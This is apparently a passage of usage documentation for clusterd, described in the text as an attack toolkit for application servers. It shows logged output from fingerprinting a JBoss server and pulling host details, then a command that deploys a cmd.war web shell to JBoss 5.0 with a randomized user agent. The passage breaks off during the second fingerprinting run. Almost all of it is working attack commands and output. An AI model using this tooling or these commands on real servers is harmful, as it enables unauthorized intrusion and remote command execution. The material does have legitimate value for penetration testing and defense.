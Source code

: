 ```
 [2014-05-25 10:57PM] Checking jboss version 6.1 JBoss JMX Console...
 [2014-05-25 10:57PM] Checking jboss version 6.0 JBoss JMX Console...
 [2014-05-25 10:57PM] Checking jboss version 7.1 JBoss Management...
 [2014-05-25 10:57PM] Checking jboss version 7.0 JBoss Management...
 [2014-05-25 10:57PM] Checking jboss version 8.0 JBoss Management...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 10:57PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 10:57PM] Matched 7 fingerprints for service jboss
 [2014-05-25 10:57PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss Web Console (version 5.0)
 [2014-05-25 10:57PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 10:57PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 10:57PM]   JBoss RMI Interface (version Any)
 [2014-05-25 10:57PM]   JBoss Status Page (version Any)
 [2014-05-25 10:57PM] Fingerprinting completed.
 [2014-05-25 10:57PM] Attempting to retrieve JBoss info...
 [2014-05-25 10:57PM]   ActiveThreadCount: 68    
 [2014-05-25 10:57PM]   AvailableProcessors: 1    
 [2014-05-25 10:57PM]   OSArch: amd64    
 [2014-05-25 10:57PM]   MaxMemory: 518979584    
 [2014-05-25 10:57PM]   HostAddress: 192.168.1.105    
 [2014-05-25 10:57PM]   JavaVersion: 1.7.0_45    
 [2014-05-25 10:57PM]   OSVersion: 6.1    
 [2014-05-25 10:57PM]   TotalMemory: 286703616    
 [2014-05-25 10:57PM]   JavaVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   ActiveThreadGroupCount: 9    
 [2014-05-25 10:57PM]   OSName: Windows 7    
 [2014-05-25 10:57PM]   FreeMemory: 122651808    
 [2014-05-25 10:57PM]   HostName: bryan-PC    
 [2014-05-25 10:57PM]   JavaVMVersion: 24.45-b08    
 [2014-05-25 10:57PM]   JavaVMVendor: Oracle Corporation    
 [2014-05-25 10:57PM]   JavaVMName: Java HotSpot(TM) 64-Bit Server VM    
 [2014-05-25 10:57PM] Finished at 2014-05-25 10:57PM
```

jboss DFS deployment against JBoss 5.0
```
$ ./clusterd.py -i 192.168.1.105 -a jboss -v5.0 --deploy ./src/lib/resources/cmd.war --random-agent

        clusterd/0.3 - clustered attack toolkit
            [Supporting 6 platforms]

 [2014-05-25 11:00PM] Started at 2014-05-25 11:00PM
 [2014-05-25 11:00PM] Servers' OS hinted at windows
 [2014-05-25 11:00PM] Fingerprinting host '192.168.1.105'
 [2014-05-25 11:00PM] Server hinted at 'jboss'
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss JMX Console...
 [2014-05-25 11:00PM] Checking jboss version 5.0 JBoss Web Console...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss EJB Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss HTTP Headers (Unreliable)...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss JMX Invoker Servlet...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss RMI Interface...
 [2014-05-25 11:00PM] Checking jboss version Any JBoss Status Page...
 [2014-05-25 11:00PM] Matched 7 fingerprints for service jboss
 [2014-05-25 11:00PM]   JBoss JMX Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss Web Console (version 5.0)
 [2014-05-25 11:00PM]   JBoss EJB Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss HTTP Headers (Unreliable) (version 5.0)
 [2014-05-25 11:00PM]   JBoss JMX Invoker Servlet (version Any)
 [2014-05-25 11:00PM]   JBoss RMI Interface (version Any)
```